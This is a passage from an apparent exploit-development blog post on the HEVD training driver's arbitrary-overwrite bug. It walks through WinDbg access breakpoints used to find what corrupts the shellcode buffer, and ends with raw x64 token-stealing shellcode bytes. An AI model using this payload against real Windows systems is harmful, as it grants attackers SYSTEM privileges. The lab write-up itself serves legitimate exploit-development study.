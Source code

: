## Finding the Culprit
Let's do all of this again, except this time, we'll put an "access" breakpoint on the memory address of our shellcode buffer and we'll catch whoever the hell is writing to it! Let's first run the script again with our `HEVD!TriggerArbitraryOverwrite` breakpoint so we can get the console output, find our shellcode buffer pointer, and then set a breakpoint on it. 

![](/assets/images/AWE/newConsole.PNG)

Perfect, now we set an access breakpoint on our shellcode buffer pointer with the following: `ba w1 0x1e864a0`.

`ba` == access breakpoint

`w` == watch for write operations

`1` == on the first byte there

`0x1e864a0` == address to monitor

Hit `g` and we'll eventually hit our breakpoint. 

![](/assets/images/AWE/culprit.PNG)

![](/assets/images/AWE/culprit2.PNG)

We paused on `mov rax,r8` however; the real culprit proceeds this instruction: `mov word ptr [r8+10h],ax`.

If we look at some register values:
```
rax a0026
r8 1e86290
```

We can see how this would overwrite our first two bytes of our shellcode. `r8 + 0x10` is going to be `0x1e864a0` (psst, that's where our shellcode is) and we're writing a 2 byte value there (`word`) which is the lower two bytes of `rax` (`0026`). So now we see how our shellcode was overwritten. How can we alter our shellcode so that we can take this overwrite and still progress? 

## Moving on Despite the Haters
I'm honestly not sure why this is happening to us. I can't really determine what instructions are leading to these conditions. The call stack is empty and devoid of named functions so that's no help; futhermore, the address scheme is all userspace. It would be strange if it was my Python code causing the problems since this is happening temporally *between* the time my buffers are allocated and when `NtQueryIntervalProfile` is called. If you're an exploit god, please reach out and let me know why I suck so bad. 

We can leverage the `ndisasm` utility on Linux to test out some alternative scenarios dealing with our overwrite. Our model shellcode is this: 
```
 "\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
 "\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
 "\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
 "\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
 "\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
 "\x5B\x59\x58\xc3"
 ```
 